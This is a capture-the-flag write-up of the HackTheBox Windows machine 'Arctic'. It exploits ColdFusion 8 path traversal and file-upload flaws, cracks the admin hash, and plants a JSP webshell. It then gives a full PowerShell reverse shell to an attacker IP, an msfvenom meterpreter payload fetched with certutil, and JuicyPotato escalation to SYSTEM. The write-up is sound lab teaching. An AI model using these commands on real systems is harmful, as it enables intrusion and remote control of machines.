

---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - ColdFusion
  - SeImpersonatePrivilege
  - arbitrary-file-upload
  - path-traversal
  - Windows
---
# Resolution summary

- Server on port 8500 runs **ColdFusion** which is both vulnerable to **Path Traversal** and **Remote File Upload** on this particular version
- Uploading a **webshell** it is possible to obtain a low privileged reverse shell as **tolis** user
- toils is provided with **SeImpersonatePrivilege** allowing to impersonate **SYSTEM** and get a high privileged reverse shell

## Improved skills

- Exploit ColdFusion known vulnerabilities
- Exploit SeImpersonatePrivilege

## Used tools

- nmap
- public exploit
- msfvenom
- msfconsole
- https://github.com/ohpe/juicy-potato

---

# Information Gathering

Enumerated all TCP open ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Arctic]
└─$ sudo nmap -sS -sV -sC -Pn -p 135,8500,49154 10.10.10.11 -oN scans/open-ports.txt
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-21 15:54 EDT
Nmap scan report for 10.10.10.11
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 140.77 seconds
```

# Enumeration

## Port 8500 - HTTP

JRun Web Server:


ColdFusion directories

# Exploitation

## ColdFusion Path Traversal - CVE-2010-2861

Exploit: 

[Offensive Security's Exploit Database Archive](https://www.exploit-db.com/exploits/14641)



Crack the hash:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Arctic]
└─$ john loot/admin.hash --wordlist=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
Use the "--format=ripemd-160" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 AVX 4x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)
1g 0:00:00:00 DONE (2021-04-21 17:07) 16.66g/s 85266p/s 85266c/s 85266C/s jodie..gabita
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
```

Login to admin panel:


ColdFusion authenticated enumeration:


ColdFusion 8,0,1,195765 (Windows Vista 6.1)

## ColdFusion 8.0.1 Arbitrary File Upload - CVE-2009-2265

Exploit: [ColdFusion 8.0.1 Arbitrary File Upload - CVE-2009-2265](https://repo.theoremforge.com/pentesting/tools/-/raw/aac4c131a462c095ca1a13f453b25c63d7a738e6/Uncategorized/exploit/windows/CVE-2009-2265_coldfusion.8.0.1/upload.py)

Web shell: [cmdjsp.jsp](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp)

```java
// note that linux = cmd and windows = "cmd.exe /c + cmd" 

<FORM METHOD=GET ACTION='exploit.jsp'>
...
```

Upload the webshell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ python upload.py 10.10.10.11 8500 cmdjsp.jsp 
Sending payload...
Successfully uploaded payload!
Find it at http://10.10.10.11:8500/userfiles/file/exploit.jsp
```


Command to get the reverse shell:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.14',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte =([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush();}$client.Close()"
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo nc -nlvp 443                                                        
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.11] 49646

PS C:\ColdFusion8\runtime\bin> whoami
arctic\tolis
```

# Privilege Escalation

## Local enumeration

Systeminfo:

```powershell
PS C:\ColdFusion8\runtime\bin> systeminfo

Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ??
System Boot Time:          23/4/2021, 6:51:17 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
                           [02]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 188 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.010 MB
Virtual Memory: In Use:    1.037 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

User info:

```powershell
PS C:\ColdFusion8\runtime\bin> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

PS C:\ColdFusion8\runtime\bin> whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 Mandatory group, Enabled by default, Enabled group
```

## SeImpersonatePrivilege Privilege Escalation

Generate meterpreter reverse shell to get a stable shell:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/shikata_ga_nai -i 3 -f exe -o rs.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 73802 bytes
Saved as: rs.exe

┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo python3 -m http.server 80                                           
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [21/Apr/2021 17:53:36] "GET /rs.exe HTTP/1.1" 200 -
10.10.10.11 - - [21/Apr/2021 17:53:40] "GET /rs.exe HTTP/1.1" 200 -
```

Download the binary and catch the reverse shell:

```powershell
PS C:\ColdFusion8\runtime\bin> certutil -urlcache -f http://10.10.14.14/rs.exe rs.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
PS C:\ColdFusion8\runtime\bin> .\rs.exe
```

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ sudo msfconsole -q                                                       
[sudo] password for kali: 
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.14
lhost => 10.10.14.14
msf6 exploit(multi/handler) > set lport 443
lport => 443
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:443 
[*] Sending stage (175174 bytes) to 10.10.10.11
[*] Meterpreter session 1 opened (10.10.14.14:443 -> 10.10.10.11:49687) at 2021-04-21 17:54:27 -0400

meterpreter > getuid
Server username: ARCTIC\tolis
```

Download all the necessary files:

```powershell
C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat 
certutil -urlcache -f http://10.10.14.14/test_clsid.bat test_clsid.bat
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\Users\tolis\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is F88F-4EA5

 Directory of C:\Users\tolis\Downloads

23/04/2021  09:09     <DIR>          .
23/04/2021  09:09     <DIR>          ..
23/04/2021  09:09                285 test_clsid.bat
               1 File(s)            285 bytes
               2 Dir(s)  33.183.264.768 bytes free

C:\Users\tolis\Downloads>certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
certutil -urlcache -f http://10.10.14.14/JP_x64.exe juicypotato.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.
```

Extract valid CLIDs:

```powershell
PS C:\users\tolis\downloads> New-PSDrive -Name HKCR -PSProvider Registry -Root HKEY_CLASSES_ROOT

WARNING: column "CurrentLocation" does not fit into the display and was removed
.

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT         

PS C:\users\tolis\downloads> $CLSID = Get-ItemProperty HKCR:\clsid\* | select-object AppID,@{N='CLSID'; E={$_.pschildname}} | where-object {$_.appid -ne $null}
PS C:\users\tolis\downloads> echo $CLSID > CLSID_both.list

# Copy paste on the kali machine
┌──(kali㉿kali)-[~/…/HTB/box/Arctic/exploit]
└─$ awk '{print $2}' CLSID_only.list| tr -d '\000' > CLSID.list

meterpreter > upload CLSID.list
[*] uploading  : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] Uploaded 12.19 KiB of 12.19 KiB (100.0%): /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
[*] uploaded   : /home/kali/CTFs/HTB/box/Arctic/exploit/CLSID.list -> CLSID.list
meterpreter > shell
...
C:\users\tolis\downloads>.\test_clsid.bat
.\test_clsid.bat
{00021401-0000-0000-C000-000000000046} 10000
{000C101C-0000-0000-C000-000000000046} 10000
{0010890e-8789-413c-adbc-48f5b511b3af} 10000
{00BC7EAE-28D5-4310-BE9F-11526A7FA37F} 10000
{010911E2-F61C-479B-B08C-43E6D1299EFE} 10000
{01D0A625-782D-4777-8D4E-547E6457FAD5} 10000
...
```

Get system shell:

```powershell
C:\users\tolis\downloads>type result.log
type result.log
{0289a7c5-91bf-4547-81ae-fec91a89dec5};ARCTIC\tolis
{095B9B12-8BDE-49D2-984B-BF01B4F8CDAF};NT AUTHORITY\SYSTEM
{1BE1F766-5536-11D1-B726-00C04FB926AF};NT AUTHORITY\LOCAL SERVICE
{3c6859ce-230b-48a4-be6c-932c0c202048};NT AUTHORITY\SYSTEM
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
{5BF9AA75-D7FF-4aee-AA2C-96810586456D};NT AUTHORITY\LOCAL SERVICE
{659cdea7-489e-11d9-a9cd-000d56965251};NT AUTHORITY\SYSTEM
{69AD4AEE-51BE-439b-A92C-86AE490E8B30};NT AUTHORITY\SYSTEM
{6d18ad12-bde3-4393-b311-099c346e6df9};NT AUTHORITY\SYSTEM
{6d8ff8e0-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{6d8ff8e8-730d-11d4-bf42-00b0d0118b56};ARCTIC\tolis
{752073A1-23F2-4396-85F0-8FDB879ED0ED};NT AUTHORITY\SYSTEM
{8BC3F05E-D86B-11D0-A075-00C04FB68820};NT AUTHORITY\SYSTEM
{8F5DF053-3013-4dd8-B5F4-88214E81C0CF};NT AUTHORITY\SYSTEM
{9678f47f-2435-475c-b24a-4606f8161c16};ARCTIC\tolis
{98068995-54d2-4136-9bc9-6dbcb0a4683f};ARCTIC\tolis
{9acf41ed-d457-4cc1-941b-ab02c26e4686};ARCTIC\tolis
{9B1F122C-2982-4e91-AA8B-E071D54F2A4D};NT AUTHORITY\SYSTEM 
{A47979D2-C419-11D9-A5B4-001185AD2B89};NT AUTHORITY\LOCAL SERVICE
{C49E32C6-BC8B-11d2-85D4-00105A1F8304};NT AUTHORITY\SYSTEM 
{d20a3293-3341-4ae8-9aaf-8e397cb63c34};NT AUTHORITY\SYSTEM 
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM 
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM
C:\users\tolis\downloads>exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.14:443 
msf6 exploit(multi/handler) > sessions -i 2 
[*] Starting interaction with 2...

meterpreter > shell
Process 3712 created.
Channel 14 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\users\tolis\downloads>juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
juicypotato.exe -t * -l 9001 -p rs.exe -c {F087771F-D74F-4C1A-BB8A-E16ACA9124EA}
Testing {F087771F-D74F-4C1A-BB8A-E16ACA9124EA} 9001
....
[+] authresult 0
{F087771F-D74F-4C1A-BB8A-E16ACA9124EA};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

[*] Sending stage (175174 bytes) to 10.10.10.11

C:\users\tolis\downloads>[*] Meterpreter session 3 opened (10.10.14.14:443 -> 10.10.10.11:50256) at 2021-04-21 18:35:50 -0400
C:\users\tolis\downloads>exit
exit
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information                   Connection
  --  ----  ----                     -----------                   ----------
  2         meterpreter x86/windows  ARCTIC\tolis @ ARCTIC         10.10.14.14:443 -> 10.10.10.11:50238 (10.10.10.11)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ ARCTIC  10.10.14.14:443 -> 10.10.10.11:50256 (10.10.10.11)

msf6 exploit(multi/handler) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
Process 668 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
whoami && hostname && type C:\users\administrator\desktop\root.txt && ipconfig /all
nt authority\system
arctic
ce65ceee66b2b5ebaff07e50508ffb90
Windows IP Configuration

   Host Name . . . . . . . . . . . . : arctic
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-50-56-B9-39-9A
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv4 Address. . . . . . . . . . . : 10.10.10.11(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
   DNS Servers . . . . . . . . . . . : 10.10.10.2
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled

Tunnel adapter isatap.{79F1B374-AC3C-416C-8812-BF482D048A22}:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

Tunnel adapter Local Area Connection* 9:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Teredo Tunneling Pseudo-Interface
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
```


# Trophy

>[!quote]
>As a matter of fact, yeah, they were foolproof. The problem is that you don’t have to protect yourself against fools. You have to protect yourself against people like me.
>\- Jeffery Deaver

>[!success]
>**User.txt**
>02650d3a69a70780c302e146a6cb96f3

>[!success]
>**Root.txt**
>ce65ceee66b2b5ebaff07e50508ffb90

